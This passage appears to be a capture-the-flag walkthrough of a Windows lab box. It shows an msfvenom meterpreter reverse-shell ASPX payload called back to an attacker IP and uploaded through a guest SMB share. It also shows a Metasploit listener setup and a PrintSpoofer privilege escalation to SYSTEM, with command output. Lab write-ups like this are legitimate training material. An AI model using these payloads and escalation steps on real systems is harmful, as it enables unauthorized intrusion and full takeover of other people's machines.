 ```
```
The last result proves to be interesting as it the same name as the SMB share we saw earlier. Upon visiting, we get a blank screen but if we append with the passwords.txt filename we get the encoded passwords. Now that we know this is the same share, we can take advantage of this to get a shell.
## Exploitation
Now that we know we have access to the nt4wrksv share through the webserver, let's create a reverse shell and upload it through SMB. 
```
$ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost={attacker IP} lport=4444 -f aspx > shell.aspx
$ smbclient //10.10.6.212/nt4wrksv -U guest
smb: \> put shell.aspx
```
Next, setup our listener before sending a GET request to our uploaded shell.
```
$ msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set lhost {attacker IP}
msf6 exploit(multi/handler) > set lport 4444
msf6 exploit(multi/handler) > run
```
In a separate terminal window
```
$ curl http://10.10.11.52:49663/nt4wrksv/shell.aspx`
```
Meterpreter session1 opened!
We can now start poking around. I immediately went to the `C:\Users` directory to look for the user flag. We have full access to Bob's user folder and therein lies the user flag on his Desktop. 
## Privilege Escalation
Let's enumerate our current privileges.
```
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
```
With the SeImpersonatePrivilege, we should be able to elevate to SYSTEM with the PrintSpoofer tool. For more info, see https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/
From our meterpreter session we can upload the 64-bit exe.
```
meterpreter > upload /opt/PrintSpoofer/PrintSpoofer/PrintSpoofer64.exe
```
Drop down into a cmd shell with the 'shell' command.
```
C:\Temp>PrintSpoofer64.exe -i -c cmd
PrintSpoofer64.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

```